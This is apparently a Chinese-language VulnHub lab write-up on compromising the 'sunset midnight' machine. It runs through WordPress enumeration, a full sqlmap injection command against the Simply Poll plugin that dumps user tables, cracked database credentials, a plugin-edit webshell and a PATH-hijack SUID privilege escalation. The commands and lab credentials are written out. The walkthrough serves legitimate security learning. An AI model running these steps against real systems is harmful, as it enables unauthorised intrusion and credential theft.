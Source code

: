 +++
ShowToc = true
TocOpen = true
title = '0x036 sunset midnight '
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



开机改网卡

# 端口扫描

![](/vulnhub_img/WEBRESOURCE515c39a3dcd4fcc5ce0480c323d5ffdd截图.png)

![](/vulnhub_img/WEBRESOURCEe25f0457757bbefae5bfd634c289321b截图.png)

![](/vulnhub_img/WEBRESOURCEb2710c79e4f6c9659dfad6e683bf179f截图.png)

# 渗透测试

修改hosts

![](/vulnhub_img/WEBRESOURCE9416f3c413dc69ca81bb6da38cb50b53截图.png)

又是一个wordpress：

![](/vulnhub_img/WEBRESOURCEc745f8202c3dbe9ee7c7247705308f13截图.png)

wpscan扫描一下：

用户名admin

![](/vulnhub_img/WEBRESOURCE9510f37f7c02bcd4a296d91df829154f截图.png)

插件：

```
--enumerate
```

![](/vulnhub_img/WEBRESOURCEc7dca05db1ab1a43e4703a6874d66850截图.png)

通过查询Simply Poll的历史漏洞发现sql注入：

![](/vulnhub_img/WEBRESOURCE51825315e324319d8346b1b8c18c9a0d截图.png)

![](/vulnhub_img/WEBRESOURCE848c7a2d74488032fec7fb2914a8da18截图.png)

```
sqlmap -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2" --threads=10 --random-agent --dbms=mysql --level=5 --risk=3 -D wordpress_db -T wp_users -C user_login,user_pass,ID,display_name,user_nicename,user_email --dump
```

![](/vulnhub_img/WEBRESOURCEcee05cc4df5bc1ee05e20f953efe1863截图.png)

虽然拿到了账号密码，但是好像这个密码无法破解，这样的话，准备改密码：

找了半天hash生成工具，找到这个网站了

[https://www.useotools.com/wordpress-password-hash-generator/output](https://www.useotools.com/wordpress-password-hash-generator/output)

![](/vulnhub_img/WEBRESOURCEcf45a329b9b9f084054046b680c0d714截图.png)

但是遗憾的事情发生了，注入非堆叠注入，没法直接修改数据库内容，只能继续看看数据库里面其他信息了，发现mysql数据库中有一个user表

![](/vulnhub_img/WEBRESOURCEe9741833b28b831db0975a086e66aae7截图.png)

![](/vulnhub_img/WEBRESOURCEac1df8d7902946381479d04729d86e47截图.png)

![](/vulnhub_img/WEBRESOURCE2ac5d6bd7c5cd8d5c0df79e71a4d4e55截图.png)

破解

root/robert

![](/vulnhub_img/WEBRESOURCE0f0829e50053a3c8368b33e58540f079截图.png)

ssh连接失败：

![](/vulnhub_img/WEBRESOURCE67d04ecc7aec34c3c8998e5aba5369c5截图.png)

还有一个端口3306：

连接成功：

![](/vulnhub_img/WEBRESOURCE687afab837885aabd4de5814df67218c截图.png)

再次修改密码：

![](/vulnhub_img/WEBRESOURCE0bec078c9a9cba3a798281ce70fdcf68截图.png)

进入wordpress后台：

这次是修改插件getshell:

![](/vulnhub_img/WEBRESOURCE8e7ff13a609e5e71068f534ba1231521截图.png)

# 提权

麻了，看样子还是得破解那个hash:

![](/vulnhub_img/WEBRESOURCEb6d959bb755f9fba5f5e17b69179532c截图.png)

这边先跑着，然后翻一下敏感文件：

好使：

![](/vulnhub_img/WEBRESOURCE8833e487d9dd9350b33fb02fc3c7d101截图.png)

/** MySQL database username */

define( 'DB_USER', 'jose' );

/** MySQL database password */

define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

![](/vulnhub_img/WEBRESOURCE699630602e0acdcee30a258e744f1447截图.png)

user.txt:

![](/vulnhub_img/WEBRESOURCE10e43248bd11cf8477e0d5a992620f0e截图.png)

SUID提权

![](/vulnhub_img/WEBRESOURCE8e4a97fb6834d0df4aa5c824b83e2e82截图.png)

![](/vulnhub_img/WEBRESOURCEc99209e1d543e9319c86f013294305b2截图.png)

修改环境变量：

```
echo "/bin/bash" > service
chmod 777 service
export PATH=/tmp:$PATH
status
```

![](/vulnhub_img/WEBRESOURCEff132dd6bb6f9d63f06022b4b38c678d截图.png)

这里有几个疑问：这里的SUID是非常规的命令，GTFOBins并不能给出好的提权建议，看很多WP都是一笔带过，就说这个可疑，那么这个可疑的判断是只能看经验吗，还是有什么技巧，还是只能挨个看。

这个问题随着对靶场和系统的熟悉会得到解决，前期靠挨个看，后期凭经验。

然后是这个命令，我倒是知道是service ssh status的结果，但是这里又怎么看出来脚本没有使用service命令的绝对路径，导致可以修改环境变量来提权。

![](/vulnhub_img/WEBRESOURCE4054cd8cd544ac1be8d0a863d2daa467截图.png)

针对这个疑问，可以使用strings命令读取status的可识别字符串，就可以解答了。